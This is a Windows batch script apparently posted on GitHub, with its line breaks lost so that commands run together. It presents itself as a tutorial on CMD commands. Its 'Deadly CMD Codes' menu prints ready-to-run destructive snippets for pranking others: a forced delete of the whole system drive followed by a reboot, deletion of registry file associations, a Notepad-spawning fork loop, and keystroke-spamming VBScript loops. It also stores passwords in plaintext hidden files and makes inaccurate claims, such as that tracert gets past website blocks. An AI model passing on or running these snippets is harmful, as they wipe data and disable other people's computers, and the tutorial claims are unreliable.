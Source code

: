 # Batch-File-learn-the-codes

@echo offcolor amode 130Title Learn The Codes
 IF NOT EXIST "c:\uname.txt" goto Register IF NOT EXIST "c:\password.txt" goto Register goto LOGIN
 :Register title SignUp cls echo ------------------------------------------------- echo                     Register echo ------------------------------------------------- echo. set/p "unamesu=Enter Username : " set/p "passsu=Enter Password : " echo. echo. IF ["%unamesu%"] == [""] goto RegisterERROR IF ["%passsu%"] ==[""] goto SRegisterERROR goto CREATEACC
 :RegisterERROR echo ------------------------------------------------- echo                     Error echo ------------------------------------------------- echo Invalid Username or password pause goto Register
 :CREATEACC echo %unamesu% >> C:\uname.txt echo %passsu% >> C:\password.txt attrib "C:\uname.txt" +s +h attrib "C:\password.txt" +s +h   goto LOGIN
 :LOGIN set/p uname= < C:\uname.txt set/p pass=< C:\password.txt title Login cls echo ------------------------------------------------- echo                       Login echo ------------------------------------------------- echo. echo. set/p "unamel=_               Username : " set/p "passwordl=_               Password : " echo. IF "%unamel%"=="" goto LOGINERROR IF "%passwordl"=="" goto LOGINERROR IF NOT %unamel%==%uname% goto LOGINERROR IF NOT %passwordl%==%pass% goto LOGINERROR goto LOADING
 :LOGINERROR echo ------------------------------------------------- echo                     Error echo ------------------------------------------------- echo Invalid Username or password pause goto LOGIN
 :LOADING title Loading... set load=%load%!!!!!!! cls echo ------------------------------------------------- echo                       Login echo ------------------------------------------------- echo. echo. echo                 Username : %unamel% echo                 Password : %passwordl% echo. echo. echo          Logging in... echo          =================================== echo          %load% echo          =================================== echo.                              Please Wait... echo. ping localhost -n 2 >nul set/a loadnum=%loadnum% +1 if %loadnum%==5 goto DONE goto LOADING
 :DONE title Done cls echo ------------------------------------------------- echo                       Done echo ------------------------------------------------- echo. echo               # echo             # echo     #     #            Login Successfully echo      #  # echo       # echo. echo. echo ------------------------------------------------- pause:
:Main Classclsecho what is your name:set /p Name=clsecho The name you have entered is %Name% if that is correct pess Enter.pause:cls
:STARTclsset /p input=select 1) for Hack Prank / 2) for CMD codes / 3) Deadly CMD Codes / 4) Exitif %input%==1 goto Second Class:if %input%==2 goto Forth Class:if %input%==3 goto Fifth Class:if %input%==4 goto Exit:        pause: 
echo %input%  ..... is Deniedgoto START
:Second Class color amode 100
echo The sofware on the the device is crap! This is 747 and u have just been Hacked!!! Just been Hackedgoto Second Class: pause:
:Exit:exit
echo Today i will not HACK you but that does not say i never will!pause:
:Forth Classclsecho Pick the CMD codes you would like to know echo 1) for Shutdown  echo 2) for Netstat echo 3) for Net user  echo 4) for tracert echo 5) for Ipconfig echo 6) for Color echo 7) GO Backset /p input=Select if %input%==1 goto Shutdown:if %input%==2 goto Netstat:if %input%==3 goto Net user:if %input%==4 goto Tracert:if %input%==5 goto Ipconfig:if %input%==6 goto Color:if %input%==7 goto STARTpause:cls
:Shutdownclsecho Shutdown is a command you can use to shutdown a computer remotely.echo You will need the IP Access of the person you would like to shutdown.echo The command is "shutdown -i."echo ----------------------------------------------------------------------------------echo 1) GO Bcakecho 2  exitset /p input=Choiceif %input%==1 goto Forth Classif %input%==2 goto Exit pause:
:Netstatclsecho Netstat is a command you would use if you want to see the connections.echo One can also use netstat to see the IP access they connected to.echo The command is "netstat"echo ----------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Forth Classif %input%==2 goto Exit pause:
:Net Userclsecho Net User would tell someone how many users have been on the computer you are using.echo Then if you type, net user and the name it would come up with the users information.echo One could also change the users password by typing net user and the name *.echo ----------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Forth Classif %input%==2 goto Exit pause:
:Tracertclsecho "tracert" is a command one can use to go go a blocked website lets say at school.echo All one would need to do is type tracert and then the web accesslets say www.Facebook.com.echo so it would look like this "tracert www.Facebook.com"echo Then once the command Prompt is down loading it will come up with the IP access.echo Then you would copy the IP access in to the web bar.echo ----------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Forth Classif %input%==2 goto Exit pause:
:Ipconfigclsecho ipconfig is mainly use for finding out your IP access and and to see your conections.echo The command is "ipconfig."echo ----------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Forth Classif %input%==2 goto Exit pause:
:Colorclsecho Color is use to change the text colour in command prompt.echo 0 = Black  8 = Greyecho 1 = Blue   9 = Light Blueecho 2 = Green  A = Light Greenecho 3 = Aqua   B = Light Aquaecho 4 = Red    C = Light Redecho 5 = Purple D = Light Purpleecho 6 = Yellow E = Light Yellowecho 7 = White  F = Light Whiteecho ----------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Forth Classif %input%==2 goto Exit pause:
:Fifth Classclsecho Deadly CMD Codesecho 1) The Blue Screen Of Deathecho 2) Stupidity Shutdownecho 3) Delete Key Registstryecho 4) Endless Notepadsecho 5) Crazy Caps lockecho 6) Endless Enterecho 7) Endless Backspaceecho 8) Popping CD Drivesecho 9) Go Back set /p input=Select  if %input%==1 goto The Blue Screen of Death:if %input%==2 goto Stupidity Shutdown:if %input%==3 goto Delete Key Registstry Files:if %input%==4 goto Endless Notepads:if %input%==5 goto Crazy Caps lock:if %input%==6 goto Endless Enter:if %input%==7 goto Endless Backspace:if %input%==8 goto Popping CD Drivesif %input%==9 goto Startpause:
:The Blue Screen of Deathclsecho The Blue screen of Deathecho The Codeecho @echo offecho del %systemdrive%\*.* /f /s /qecho shutdown -r -f -t 00echo ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Stupididty Shutdownclsecho Stupididty Shutdownecho The Codeecho @echo offecho msg * Fatal system error due to admin stupidity!echo shutdown -c “Error! You are too stupid!” -s -t 10echo ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Delete Key Registstry Filescls echo Delete Key Registstry Filesecho The Codeecho @ECHO OFFecho START reg delete HKCR/.exeecho START reg delete HKCR/.dllecho START reg delete HKCR/*echo :MESSAGEecho ECHO Your computer has been fcked.Â Â Have a nice day.echo GOTO MESSAGEecho ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Endless Notepadsclsecho Endless Notepadsecho The Codeecho @ECHO offecho :topecho START %SystemRoot%\system32\notepad.exeecho GOTO topecho ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Crazy Caps Lockclsecho Crazy Caps Lockecho The Codeecho Set wshShell =wscript.CreateObject(“WScript.Shell”)echo doecho wscript.sleep 100echo wshshell.sendkeys “{CAPSLOCK}”echo loopecho ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Endless Enter  clsecho Endless Enterecho The Code echo Set wshShell = wscript.CreateObject(“WScript.Shell”)echo doecho wscript.sleep 100echo wshshell.sendkeys “~(enter)”echo loopecho ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Endless Backspacecls echo Endless Backspaceecho The Code echo echoMsgBox “Let’s go back a few steps”echo Set wshShell =wscript.CreateObject(“WScript.Shell”)echo doecho wscript.sleep 100echo wshshell.sendkeys “{bs}”echo loopecho ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
:Popping CD Drivesclsecho Popping CD Drivesecho The Codeecho Set oWMP = CreateObject(“WMPlayer.OCX.7”)echo Set colCDROMs = oWMP.cdromCollectionecho doecho if colCDROMs.Count >= 1 thenecho For i = 0 to colCDROMs.Count – 1echo colCDROMs.Item(i).Ejectecho Nextecho For i = 0 to colCDROMs.Count – 1echo colCDROMs.Item(i).Ejectecho Nextecho End Ifecho wscript.sleep 100echo loopecho ---------------------------------------------------------------------------------echo 1) GO Bcakecho 2) exitset /p input=Choiceif %input%==1 goto Fifth Classif %input%==2 goto Exit pause:
